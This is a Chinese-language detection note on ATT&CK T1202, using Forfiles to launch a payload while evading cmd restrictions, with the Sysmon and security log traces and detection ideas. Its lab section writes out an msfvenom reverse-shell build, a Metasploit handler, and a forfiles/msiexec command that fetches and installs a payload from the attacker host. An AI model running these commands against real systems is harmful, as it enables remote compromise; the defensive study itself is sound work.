# T1202-win-基于白名单Forfiles执行payload

## 来自ATT&CK的描述

可以使用各种Windows实用程序来执行命令，而不需要调用cmd。例如，Forfiles、程序兼容性助手（pcalua.exe）、WSL（WindowsSubsystem for Linux）组件以及其他实用程序可以从命令行界面、运行窗口或通过脚本来调用程序和命令的执行。

攻击者可能会滥用这些功能来规避防御，尤其是在破坏检测和/或缓解控制（如组策略）的同时执行任意动作。（这些控制限制/阻止了cmd或恶意负载相关文件扩展名的使用。）

## 测试案例

Forfiles为Windows默认安装的文件操作搜索工具之一，可根据日期，后缀名，修改日期为条件。常与批处理配合使用。

微软官方文档：

<https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/cc753551(v=ws.11)>

说明：Forfiles.exe所在路径已被系统添加PATH环境变量中，因此，Forfiles命令可识别，需注意x86，x64位的Forfiles调用。

Windows 2003 默认位置：

C:\WINDOWS\system32\forfiles.exe C:\WINDOWS\SysWOW64\forfiles.exe

Windows 7 默认位置：

C:\WINDOWS\system32\forfiles.exe C:\WINDOWS\SysWOW64\forfiles.exe

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：win7

### 攻击分析

#### 生成payload

```bash
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.126.146 LPORT=8888 -f msi > abc.txt
```

#### MSF配置

```bash
msf5 exploit(multi/handler) > back
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 8888
lport => 5555
msf5 exploit(multi/handler) > exploit
```

#### 靶机执行payload

```cmd
forfiles /p c:\windows\system32 /m cmd.exe /c "msiexec.exe /q /i http://192.168.126.146/abc.txt"
```

#### 反弹shell

反弹shell失败！！！但不影响后续分析

## 测试留痕

```log
#sysmon日志
EventID：1
Process Create:
RuleName:
UtcTime: 2020-04-18 16:27:08.447
ProcessGuid: {bb1f7c32-2a5c-5e9b-0000-0010b3101d00}
ProcessId: 588
Image: C:\Windows\System32\msiexec.exe
FileVersion: 5.0.7601.17514 (win7sp1_rtm.101119-1850)
Description: Windows® installer
Product: Windows Installer - Unicode
Company: Microsoft Corporation
OriginalFileName: msiexec.exe
CommandLine: /q /i http://192.168.126.146/abc.txt
CurrentDirectory: C:\Windows\system32\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-25f5-5e9b-0000-0020b86d0600}
LogonId: 0x66db8
TerminalSessionId: 1
IntegrityLevel: High
Hashes: SHA1=443AAC22D57EDD4EF893E2A245B356CBA5B2C2DD
ParentProcessGuid: {bb1f7c32-2a5c-5e9b-0000-00100a101d00}
ParentProcessId: 1220
ParentImage: C:\Windows\System32\forfiles.exe
ParentCommandLine: forfiles  /p c:\windows\system32 /m cmd.exe /c "msiexec.exe /q /i http://192.168.126.146/abc.txt"


#win7安全日志
EventID：4688
进程信息:
新进程 ID: 0x4c4
新进程名: C:\Windows\System32\forfiles.exe
```

## 检测规则/思路

无具体检测。监控和分析基于主机的检测机制（如Sysmon）中的日志来查看事件，比如查看是否有进程创建事件（创建过程中使用了参数来调用程序/命令/文件和/或生成子进程/网络连接，或者该创建是由这些参数导致的）。

## 相关TIP
[[T1202-win-基于白名单Pcalua执行payload]]

## 参考推荐

MITRE-ATT&CK-T1202

<https://attack.mitre.org/techniques/T1202/>

基于白名单Forfiles执行payload

<https://www.bookstack.cn/read/Micro8/Chapter1-81-90-84_%E5%9F%BA%E4%BA%8E%E7%99%BD%E5%90%8D%E5%8D%95Forfiles%E6%89%A7%E8%A1%8Cpayload%E7%AC%AC%E5%8D%81%E5%9B%9B%E5%AD%A3.md>
